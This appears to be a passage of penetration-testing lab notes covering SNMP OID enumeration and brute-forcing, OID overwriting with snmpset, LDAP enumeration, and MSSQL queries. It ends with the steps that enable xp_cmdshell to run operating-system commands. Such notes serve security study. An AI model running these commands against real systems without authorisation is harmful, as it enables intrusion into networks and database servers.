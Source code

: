 ```
|OID| Target |
|--|--|
| 1.3.6.1.2.1.25.1.6.0 | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units |
| 1.3.6.1.2.1.25.6.3.1.2  | Software Name |
| 1.3.6.1.4.1.77.1.2.25 | User Accounts |
| 1.3.6.1.2.1.6.13.1.3 | TCP Local Ports |
```
- `snmpwalk -Os -c public -v 1 $IP system`
	- to retrieve all
	- try 'v 2c' as well 

### Useful Nmap Scripts:
snmp-brute
snmp-win32-services.nse
snmp-win32-shares.nse
snmp-win32-software.nse
snmp-win32-users.nse

### snmpset
You can even overwrite and set some OIDs if things are misconfigured:
`snmpset -c $communityString -v $version $OID $VALUE`

### snmpenum
`snmpenum $targetIP ​$communityString $configFile
- config files are in /usr/share/snmpenum/

## (389,636) LDAP

- if you have ldap and can't find anything else:
`sudo nmap -sC -A -Pn --script "*ldap*" $IP -oN outputfile.txt'` (use output.ldap)

- when you find the dc from the above script which says: "Context: DC=$name,DC=offsec":
`ldapsearch -x -H ldap://$IP -b "dc=$name,dc=offsec" > $name.ldapsearch`  (grep for cn/description/sAMAccountName)
	- This is for when the domain is `$name.offsec`

## mssql
### Commands
- `SELECT @@version;`
- `SELECT name FROM sys.databases;` (to list all available db's)
	- master, tempdb, model, and msdb are default
- `SELECT * FROM \<non-default db>.information_schema.tables;`
	- `select * from \<non-default db>.dbo.\<table>;`
### xp_cmdshell
1. `EXECUTE sp_configure 'show advanced options', 1;`
2. `RECONFIGURE`
3. `EXECUTE sp_configure 'xp_cmdshell', 1;`
4. `RECONFIGURE;`
5. `EXECUTE xp_cmdshell 'whoami';`
